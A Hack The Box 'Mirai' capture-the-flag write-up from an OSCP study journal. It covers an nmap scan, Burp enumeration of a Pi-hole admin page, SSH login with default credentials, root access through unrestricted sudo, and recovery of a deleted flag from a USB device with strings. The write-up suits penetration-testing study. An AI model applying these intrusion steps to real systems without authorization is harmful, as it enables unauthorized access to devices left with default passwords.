

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/mirai-easy
---

# ✅ Mirai (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Default Credential

**System Vulnerable:** 10.10.10.48

**Vulnerability Explanation:** By intercept traffic in burp, it shows the application name with admin URL path. By perform OSINT, we found the default credential and it's in used on the system.

**Privilege Escalation Vulnerability:** Misconfigure of Privilege User

**Vulnerability Fix:** Make sure there is no default credentials in used and least privilege for user.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.48 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-02 03:08 EST
Nmap scan report for 10.10.10.48
Host is up (0.045s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1368/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-favicon: Plex
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80 Lighttpd 1.4.35

It just displays a blank page. Intercept through burp proxy

.png>)

change host to machine name for testing. We found domain **pi.hole**

.png>)

Access **pi.hole** on the browser, it doesn't redirect to anywhere.

.png>)

In burp, it redirects to **/admin/**

.png>)

.png>)

Notice that it's running on <mark style="color:red;">**pi version 3.1.4.**</mark>

.png>)

## Exploitation

```
└─$ ssh pi@10.10.10.48                                                                                                                                                                  130 ⨯
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~ $ 
```

## Privilege Escalation

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root     
```

```
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

### Post Exploitation

```
root@raspberrypi:~# df -lh
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000

```

```
root@raspberrypi:~# cd /media/usbstick/
root@raspberrypi:/media/usbstick# ls
damnit.txt  lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/media/usbstick# 
root@raspberrypi:/media/usbstick# cd lost+found/
root@raspberrypi:/media/usbstick/lost+found# ls
root@raspberrypi:/media/usbstick/lost+found# ls -la
total 13
drwx------ 2 root root 12288 Aug 14  2017 .
drwxr-xr-x 3 root root  1024 Aug 14  2017 ..

```

```
root@raspberrypi:/# file /dev/sdb
/dev/sdb: block special (8/16)
root@raspberrypi:/# 
root@raspberrypi:/# 
root@raspberrypi:/# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143fxxxxxxxxxxxxxxxxx
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James

```
